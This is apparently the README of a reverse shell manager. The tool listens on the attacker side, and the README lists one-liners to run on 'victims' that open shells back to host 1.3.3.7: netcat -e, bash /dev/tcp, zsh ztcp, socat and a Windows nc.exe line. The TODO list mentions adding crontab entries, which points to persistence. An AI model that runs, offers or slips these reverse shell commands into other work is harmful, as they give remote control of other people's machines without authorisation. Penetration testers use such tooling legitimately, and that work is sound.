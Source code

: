 # Reverse Shell Manager

```
A multiple reverse shell sessions/clients manager via terminal
```
**This project will not continue develope anymore.**
**The reborn project (Platypus) will be released at https://github.com/WangYihang/Platypus**

#### [**Platypus**](https://github.com/WangYihang/Platypus)
  * More stable
  * More features
  * Upgrade common reverse shell session to full interactive seession
  * Reverse shell as a Service
  * RESTful API
  * ...

#### Attacker side
```
python Reverse-Shell-Manager.py 0.0.0.0 4444
```
#### Victims sides
> Linux
```
nc -e /bin/bash 1.3.3.7 4444
bash -c 'bash -i >/dev/tcp/1.3.3.7/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.3.3.7 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.3.3.7:4444  
```
> Windows
```
nc.exe -e /bin/bash 1.3.3.7 4444
```

#### Simple Example Video 

[![asciicast](https://asciinema.org/a/143640.png)](https://asciinema.org/a/143640)

#### YouTube Example
> https://youtu.be/AoS-q1MGw30  


#### TODO
- [x] Add an item to crontab
- [x] Delete an item from crontab
- [ ] create a class to hold Master
- [ ] select/epoll

#### Bugs

- [x] A victim is connected but didn't add to online list
- [ ] socket stuck on rece()

#### LICENSE

```
THE DRINKWARE LICENSE

<wangyihanger@gmail.com> wrote this file. As long as 
you retain this notice you can do whatever you want 
with this stuff. If we meet some day, and you think 
this stuff is worth it, you can buy me the following
drink(s) in return.

Red Bull
JDB
Coffee
Sprite
Cola
Harbin Beer
etc

Wang Yihang
```
